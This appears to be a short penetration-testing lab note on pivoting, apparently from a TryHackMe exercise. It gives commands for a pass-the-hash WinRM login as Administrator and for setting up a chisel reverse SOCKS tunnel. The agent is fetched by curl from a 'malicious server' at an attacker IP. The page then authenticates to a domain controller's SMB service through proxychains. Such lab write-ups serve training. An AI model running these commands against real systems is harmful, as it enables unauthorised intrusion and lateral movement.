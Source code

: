 # Pivoting

## Access to the Pivot Machine as Admin

{% code overflow="wrap" %}
```bash
evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
```
{% endcode %}



## Chisel pivoting setup

### Set Proxy in attacker machine

{% code overflow="wrap" %}
```bash
chisel server --port 8000 -reverse
```
{% endcode %}



### Start Agent in pivot machine

Download the agent from malicious server

```
curl http://10.250.1.6/chisel_1.10.1_windows_amd64 -o chisel.exe

.\chisel.exe client 10.250.1.6:8000 R:socks
```



Try to authenticate to DC.

```bash
proxychains nxc smb 10.200.150.10 -u "gg" -p 'ii'
```

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

The pivot works.
